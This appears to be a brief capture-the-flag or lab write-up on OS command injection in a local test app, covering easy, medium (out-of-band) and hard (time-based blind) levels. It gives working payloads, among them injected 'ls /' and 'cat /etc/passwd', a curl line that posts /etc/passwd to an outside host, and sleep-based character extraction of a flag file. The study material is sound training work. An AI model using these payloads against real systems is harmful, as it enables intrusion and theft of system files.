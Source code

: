 ## OS Command

### Easy

Check test feature 

![img.png](img.png)

![img_1.png](img_1.png)

`http://localhost:3000/test?domain=facebook.com;%20ls%20/`

domain = facebook.com; ls /

cat /etc/passwd

![img_2.png](img_2.png)


### Medium

Use out of band technique

We inject `; ls /` but it still show `nslookup`
=> Blind OS Command

add `facebook.com; cat /etc/passwd | curl -X POST -d @- https://example.com/api/endpoint`

![img_3.png](img_3.png)

### Hard

Use time-based 

Xác định số ký tự:

`123; if+[ “$(wc -c flag.txt | cut -c 1)” = “5” ]; then sleep 30; fi`

Find flag:
`123; if+[ “$(cat flag.txt | cut -c 1)” = “P” ]; then sleep 30; fi`




`